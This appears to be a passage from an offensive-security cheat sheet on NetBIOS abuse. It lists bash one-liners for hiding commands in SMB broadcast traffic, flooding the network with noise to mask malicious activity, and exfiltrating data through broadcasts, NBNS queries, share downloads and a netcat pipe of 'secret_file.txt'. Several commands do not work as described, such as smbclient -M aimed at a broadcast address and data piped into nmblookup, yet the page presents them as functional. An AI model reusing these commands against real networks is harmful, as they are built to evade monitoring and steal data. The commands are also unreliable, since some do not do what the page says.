 #### Hiding in Broadcast Traffic

*   **Tool:** \[\[Custom Scripts]], \[\[SMBClient]]

    ```bash
    echo "stealth message" | smbclient -M <broadcast_address>
    ```
* **Description:** Send messages or commands via broadcast to avoid detection by network monitoring tools focused on unicast traffic.

#### NetBIOS Traffic Obfuscation

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    for i in {1..1000}; do echo "noise" | smbclient -M <broadcast_address>; done
    ```
* **Description:** Flood the network with benign NetBIOS traffic to mask malicious activities.

### Data Exfiltration

#### Exfiltration via Broadcast

*   **Tool:** \[\[Custom Scripts]], \[\[SMBClient]]

    ```bash
    echo "exfil data" | smbclient -M <broadcast_address>
    ```
* **Description:** Use broadcast messages to exfiltrate data from a network, making it harder to track the source of the data leak.

#### Using NBNS as a Covert Channel

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    echo "exfil data" | nmblookup -A <target_ip>
    ```
* **Description:** Leveraging NBNS queries to exfiltrate small amounts of data from a compromised network.

#### Exfiltrating Data via NetBIOS Shares

*   **Tool:** \[\[SMBClient]]

    ```bash
    smbclient //target/share -c "get sensitive_data.txt"
    ```
* **Description:** Use NetBIOS shares to exfiltrate sensitive data from the target machine.

#### Covert Channels

*   **Tool:** \[\[NetCat]]

    ```bash
    nc <target_ip> 139 < secret_file.txt
    ```
* **Description:** Create a covert channel using NetBIOS Session Service to exfiltrate data discreetly.
